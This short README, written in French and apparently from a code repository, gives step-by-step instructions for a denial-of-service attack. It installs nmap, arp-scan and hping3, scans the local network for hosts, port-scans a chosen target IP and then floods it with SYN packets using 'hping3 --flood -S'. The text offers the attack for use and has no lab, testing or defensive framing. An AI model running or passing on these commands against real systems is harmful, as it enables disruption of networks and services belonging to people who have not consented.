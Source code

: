 # attaque par DDOS

## prérequis :
* nmap
* hping3
* arp-scan
  ### comment les installés  :
    - ~$` sudo apt-get install nmap arp-scan hping3`

## Faire un attaque DDOS :

  1. Analyser et afficher la liste des utilisateurs connectés au réseau :
     * ~$ `sudo arp-scan -l`
  2. Analyser les ports utilisés par l’adresse IP ciblée :
       * ~$ `sudo nmap ip_address`
  3. Attaque DDOS : 
       * ~$`sudo hping3 --flood -p port -S ip_address`